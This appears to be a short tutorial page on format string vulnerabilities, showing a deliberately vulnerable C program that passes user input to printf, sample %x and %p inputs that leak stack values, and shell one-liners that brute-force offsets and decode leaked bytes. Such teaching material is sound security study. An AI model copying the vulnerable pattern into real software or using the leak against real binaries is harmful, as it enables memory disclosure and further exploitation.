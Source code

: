 ```yaml
---
title: Binary Exploitation with Format String
description: This exploitation occurs when a binary is affected a format string that attacker inputs.
tags:
    - Reverse Engineering
refs:
    - https://ir0nstone.gitbook.io/notes/types/stack/format-string
date: 2023-08-14
draft: false
---
```


## Investigation

If a binary file contains the functionality which reads user input then outputs it, we can abuse format strings.

```c
// example.c
int main()
{
    char buffer[12];

    gets(buffer);
    printf(buffer);

    return 0;
}
```

For example, input **`%x`** as below, then we get the value of stack as hex representation.

```sh
./example

# Input 1 (read value as hex)
%x
# output
ad8c72a1

# Input 2 (read multiple values as hex)
%x %x %x %x
# output
78252078 0 ceddc980 447c8d80 0

# Input 3 (read offset values as hex)
%1$x
# output
2431

# Input 4 (read offset values as hex)
%2$x
# output
0

# Input 5 (read pointer address)
%p
# output
0x55821afca2a1

# Input 6 (read offset pointer address)
%1$p
# output
2431
```

## Exploitation

This is an example of exploitation with format string.  
We can read pointer addresses/values by brute forcing.

```sh
# Brute force pointer
for i in {20..-1}; do echo \%$i\$p | ./example; done

# Brute force pointer & cut & hexdump (reverse) & reverse
# cut -c 15-: Select only N characters (e.g. 15 characters)
# xxd -ps: Output in plain hexdump style
# xxd -r: Reverse operation. Convert hexdump into binary
# rev: Reverse lines characterwise
(for i in {11..6..-1}; do echo \%$i\$p | ./example; done) | grep "The result is" | cut -c 15- | xxd -ps -r | rev
```

<br />